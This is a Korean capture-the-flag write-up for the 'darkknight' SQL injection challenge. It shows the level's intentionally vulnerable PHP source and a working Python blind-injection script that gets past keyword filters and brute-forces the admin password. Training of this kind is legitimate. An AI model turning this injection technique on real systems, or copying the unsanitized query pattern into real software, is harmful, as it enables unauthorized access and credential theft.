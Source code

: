 ## Darknight
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```
### exploit
**'** , **substr** , **ascii** , **=** 을 필터링하고 있다.

필터링에 주의하며 앞선 Orc, Orge문제와 같이 파이썬 코드를 사용하면 된다.

' : ", substr() : mid() , = : like를 사용해서 우회 할 수 있다.
```python
import requests

url = 'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php'
cookie = {'PHPSESSID': 'ovbfdu14h0vaeamskdlr10nttu'}

for i in range(20):
  param = {'no': f'"" || length(pw) like {i}#'}
  res = requests.get(url, params=param, cookies=cookie)
  if 'Hello admin' in res.text:
    print(i)

length = 8
password = ''
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    query = {'no': f'"" || mid(pw, {str(len)}, 1) like "{chr(pw)}"#'}
    res = requests.get(url, params=query, cookies=cookie)
    if 'Hello admin' in res.text:
      password = password + chr(pw)
      print(f'{len} : {chr(pw)}')
      break

print(password.lower())
```
